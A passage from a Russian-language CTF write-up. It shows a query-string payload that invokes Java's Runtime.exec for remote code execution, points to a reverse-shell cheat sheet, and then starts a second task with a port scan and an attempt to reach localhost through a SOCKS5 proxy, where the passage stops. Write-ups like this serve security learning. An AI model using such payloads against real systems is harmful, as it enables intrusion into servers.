 Итак, GET-параметр `constr` у нас будет равен `Java`. Теперь бы подобрать что-нибудь интересное для остальных, чтобы в идеале вызвать RCE. Тут на помощь приходит моя любимая [страничка с reverse shell'ами](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Там помимо всего прочего есть пример для Java, который идеально вписывается в предложенную в задании схему. Делаем:

```
?constr=Java&arg=java.lang.Runtime&param[]=getRuntime&param[]=exec&test=КОМАНДА
```

Всё остальное просто — заводим себе reverse shell любым удобным способом и получаем флаг. Главное учитывать, что в `test` может быть вызвана только одна команда, никаких пайпов и подобного.

**Подсказки организаторов:**

* look about backend specification

**Флаг:** `67e184507724240c6fabb77152c1e061`


## DigitalResistance

**Дано:** Telegram-бот [@phdproxybot](https://t.me/phdproxybot)

Организаторы придумали одновременно и интересное задание, и полезную штуку в свете блокировки мессенджера Telegram на территории России. Я не сразу понял, что это настоящий таск, думал это просто полезная фича — ещё один прокси. Но нет, всё гораздо запутаннее :)

Я начал с того, что просканировал прокси-сервер на открытые порты и нашёл интересное:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2.0)
80/tcp   open  http    nginx 1.10.3 (Ubuntu)
1080/tcp open  socks5  (Username/password authentication required)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
```

Два SSH-сервера и веб-сервер. Там точно что-то должно быть! Заходим на веб-сервер, на странице в исходный код закрался комментарий:

```html
<!-- <h3><a href="./?get=flag">Flag</a></h3> -->
```

Крутяк! Таск зарешан! Или нет?

```
Access from external ip denied! Only localhost allowed
```

Значит нам нужно достучаться до этой страницы с локалхоста, то есть с самого прокси-сервера. Что сложного? Делаем запрос через сам SOCKS-прокси с выданными нам логином/паролем:

```
$ curl --proxy socks5h://ЛОГИН:ПАРОЛЬ@172.104.226.97:1080 'http://127.0.0.1/?get=flag'
curl: (7) Can't complete SOCKS5 connection to 127.0.0.1:80. (2)
```

Ахаха, nice try. На прокси-сервере настроен белый список, в котором, разумеется, отсутствует 127.0.0.1, localhost и подобные. Будем искать другой путь.
